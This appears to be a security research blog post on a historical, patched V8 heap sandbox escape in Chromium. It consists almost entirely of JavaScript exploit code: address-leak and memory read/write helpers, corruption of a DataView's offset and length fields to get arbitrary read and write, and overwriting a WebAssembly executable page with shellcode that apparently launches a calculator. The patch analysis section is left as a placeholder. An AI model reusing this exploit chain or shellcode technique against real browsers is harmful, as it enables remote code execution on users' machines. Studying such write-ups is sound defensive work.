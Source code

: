 +++
tags = ["browser","v8","chromium"]
categories = ["Web Browsers", "Javascript Engines", "Chromium"]
description = "Corruption of the DataView object's `byte_length` and `byte_offset` fields results in arbitrary read and write primitives external to the heap sandbox."
date = "2023-01-20"
featuredpath = "date"
linktitle = ""
title = "Exploring Historical V8 Heap Sandbox Escapes II"
slug = "exploring-historical-v8-heap-sandbox-escapes-ii"
type = "post"
+++

## Overview

Corruption of the DataView object's `byte_length` and `byte_offset` fields results in arbitrary read and write primitives external to the heap sandbox.

You can find the patch for this heap sandbox escape here: [\[sandbox\] Introduce BoundedSize](https://chromium-review.googlesource.com/c/v8/v8/+/3876823).


## Patch Analysis

...


## Exploit Primitives

```js
const addrof = o => {
  return Sandbox.getAddressOf(o);
};

const weak_read = p => {
  let reader = new Sandbox.MemoryView(p, 64);
  let view = new DataView(reader);
  return view.getBigUint64(0, true); 
};

const weak_write = (p, x) => {
  let writer = new Sandbox.MemoryView(p, 64);
  let view = new DataView(writer);
  view.setBigUint64(0, x, true);
};
```


## DataView Object Overview 

```js
let buf = new ArrayBuffer(128);
let view = new DataView(buf);

%DebugPrint(view);
```


## DataView Byte Offset Corruption

```js
let buf = new ArrayBuffer(128);
let view = new DataView(buf);

%DebugPrint(view);
%SystemBreak();
%DebugPrint(view);
```


## Arbitrary Read Primitive

```js
let heap = (weak_read(0x18) >> 32n) << 32n;
let store = heap + ((weak_read(addrof(buf) + 0x20) & 0xffffffffn) << 8n);
let offset = 0xffffffffffffffffn - store + 1n;

weak_write(addrof(view) + 0x10, offset);              /* view.byte_offset */
weak_write(addrof(view) + 0x18, 0xffffffffffffffffn); /* view.byte_length */
```

```js
const strong_read = p => {
  return view.getBigUint64(Number(p), true);
};
```


## Arbitrary Write Primitive

```js
const strong_write = (p, x) => {
  return view.setBigUint64(Number(p), x, true);
};
```


## Code Execution

```js
let wasm = new Uint8Array([
  0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x85, 0x80, 0x80, 0x80,
  0x00, 0x01, 0x60, 0x00, 0x01, 0x7f, 0x03, 0x82, 0x80, 0x80, 0x80, 0x00, 0x01,
  0x00, 0x04, 0x84, 0x80, 0x80, 0x80, 0x00, 0x01, 0x70, 0x00, 0x00, 0x05, 0x83,
  0x80, 0x80, 0x80, 0x00, 0x01, 0x00, 0x01, 0x06, 0x81, 0x80, 0x80, 0x80, 0x00,
  0x00, 0x07, 0x91, 0x80, 0x80, 0x80, 0x00, 0x02, 0x06, 0x6d, 0x65, 0x6d, 0x6f,
  0x72, 0x79, 0x02, 0x00, 0x04, 0x6d, 0x61, 0x69, 0x6e, 0x00, 0x00, 0x0a, 0x8a,
  0x80, 0x80, 0x80, 0x00, 0x01, 0x84, 0x80, 0x80, 0x80, 0x00, 0x00, 0x41, 0x2a,
  0x0b
]);
let module = new WebAssembly.Module(wasm);

let instance = new WebAssembly.Instance(module);
let rwx = weak_read(addrof(instance) + 0x60);

let shellcode = [
  0x732f6e69622fb848n,
  0x66525f5450990068n,
  0x15e8525e54632d68n,
  0x4c50534944000000n,
  0x302e303a273d5941n,
  0x00636c6163782027n,
  0x0f583b6a5e545756n,
  0x0000000000000005n
];

for (let i = 0; i < shellcode.length; i++)
  strong_write(rwx + (8n * BigInt(i)), shellcode[i]);

instance.exports.main();
```


## References
 - [\[sandbox\] Introduce BoundedSize](https://chromium-review.googlesource.com/c/v8/v8/+/3876823)
